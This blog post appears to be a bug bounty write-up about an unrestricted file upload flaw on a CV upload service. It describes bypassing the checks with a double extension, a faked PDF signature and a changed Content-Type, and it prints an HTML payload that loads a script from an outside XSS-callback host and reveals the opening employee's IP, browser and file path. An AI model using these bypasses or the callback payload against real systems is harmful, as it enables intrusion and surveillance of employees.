


While I'm stuck at quarantine like the rest of the world, I have more time to work on my web app hacking skills by doing some bug bounties. From those bugs that I found in this long BB session of mine, I got to report my first Unrestricted File Upload.
OWASP explains the vulnerability in great detail [here](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload).

So the functionality of the service goes like that: a user can upload their CV on the website. The web app renames and saves the file, which is going to be examined later by an employee of the company on their computer locally. After examining the file, the employee will update the user's profile based on the info of the CV.

###### Source: OWASP


While examining the service I tried to upload a basic "hello world" HTML file. But it was immediately rejected. The file wasn't even probed to be uploaded so I guessed a content inspection didn't even take place. So maybe the first obstacle was the filename itself. Changing the filename from ``file.html`` to ``file.html.pdf`` got the file to be accepted.

After that, I hit "Upload" but the file got rejected again. This is where the content inspection (if that's the correct way to say it) took place. 

At this point I had to trick the system and make it believe that this was indeed a pdf file. Here I have to thank [HTB](https://www.hackthebox.eu/), as this is where I first learned about bypassing protection with File Signatures or also known as [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures). Adding the signature ``%PDF-1.`` at the top of the HTML file, I could bypass the protection. Also, by changing the Content-Type of the file from ``application/pdf`` to ``text/html`` the file was getting downloaded and opened as a HTML file. I added the a basic XSS payload in orded to get notified if the employee opened the file (because I thought that if they saw a HTML file they would automatically delete/dismiss it. So the file at the end looked like this:
```
$ cat fileupload.html.pdf 
%PDF-1.
<html>
<script src=https://vict0ni.xss.ht></script>
</html>
```
Even though there wasn't any cookies to steal, because the file was not rendered inside the company's system (sadly, for me, as this would have opened ways for possible RCE), it served the purpose of notifying me in case the file was opened and getting some information, like the employee's IP and geolocation, their web browser, OS and path ``file:///C:/Users/[employee's name]/Downloads/``. While this info is not useful for me as a bug hunter, they can be useful for adversaries. I also tested the vulnerability for .exe files and I was successful again.

###### Source: OWASP


I hope you gained something from my experience.

Bonus: The file upload service was also vulnerable to CSRF, which means that I could also upload a malicious file via another user and also possibly infect them, as the uploaded CV can also be downloaded by the users themselves.
